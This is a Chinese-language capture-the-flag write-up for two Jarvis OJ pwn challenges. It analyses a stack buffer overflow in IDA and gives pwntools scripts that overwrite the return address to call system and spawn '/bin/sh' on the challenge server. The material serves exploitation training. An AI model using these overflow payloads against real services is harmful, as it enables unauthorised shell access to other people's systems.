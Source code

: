 思路：

扔进 IDA 看 strings, 有 bin/sh, 进入按 X，看函数调用地址。

左侧函数窗口，看 main 函数

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      write(1, "Hello, World\n", 0xDuLL);
      return vulnerable_function();
    }

看 vulnerable_function

    ssize_t vulnerable_function()
    {
      char buf; // [rsp+0h] [rbp-80h] # 读buf 占 0x80，双击进入，
      return read(0, &buf, 0x200uLL); # 就读入 0x200， 即16*16*2 =512个bytes
    }

    # buf
    -0000000000000002                 db ? ; undefined
    -0000000000000001                 db ? ; undefined
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?) # 存放返回地址， 多空余0x8字节，加上前面的0x80字节，就是0x88个字节

read 可以读入 0x200，即 512 个字符，而从 buf 到 vulnerable_function 的返回地址只有 0x80+0x8,即 136 个字节 < 512，因此可以覆盖 vulnerable_function 的返回地址为 call_system 函数地址，即可 getshell

```python
# -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881)
junk = 'a'*0x80 # 随意填充0x80个，


fakebp = 'a'*8 # 看char buf，双击进buf，最下面还有8个bytes
syscall = 0x0000000000400596 # ida 查看 exports 填入地址
payload = junk + fakebp + p64(syscall) # 正常是vulnerable_function()返回地址，我们这里覆盖为syscall地址，得到shell
sh.send(payload)
sh.interactive()

```

#### 读取 symbol system 的地址

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

io = remote("pwn2.jarvisoj.com",9878)
elf = ELF("./level2")

sys_addr = elf.symbols["system"]                     # IDA对应的函数为 _system 0x08048320
bin_addr = elf.search("/bin/sh".encode()).__next__() # IDA可见 0x804a024

payload = 'a'*(0x88 + 0x4)                 #辣鸡填充值
payload += p32(sys_addr).decode('latin')   #覆盖返回地址到system函数
payload += p32(0xdeadbeef).decode('latin') #随意填写system函数调用结束的返回地址 0x1也行
payload += p32(bin_addr).decode('latin')   #system函数的参数，指向“/bin/sh”，实现调用

io.recvline()
io.sendline(payload)
io.interactive()
io.close()
```